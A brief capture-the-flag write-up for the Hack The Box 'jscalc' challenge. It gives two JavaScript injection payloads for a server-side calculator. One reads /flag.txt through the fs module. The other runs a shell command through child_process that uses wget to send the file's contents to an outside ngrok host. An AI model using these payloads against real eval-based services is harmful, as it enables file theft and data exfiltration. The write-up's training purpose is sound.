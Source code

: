 # Hack The Box Challenge - Calculator File Reading

## Challenge Description
HTB jscalc, your goal is to run a script in the calculator input that reads the contents of a file named `flag.txt`.##  In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑


## Easy Exploit
File System Module
The easiest way is to use the fs module.

1. In the calculator input, run the following JavaScript code to get the flag:

   ```javascript
   require('fs').readFileSync('/flag.txt', 'utf8')


## Another Way To Exploit

```javascript
require('child_process').exec('wget https://fsr2-a3f2-v01v-b337-7100-212f-5c22-ecar-g5ar.ngrok-free.app?flag=$(cat /flag.txt)')
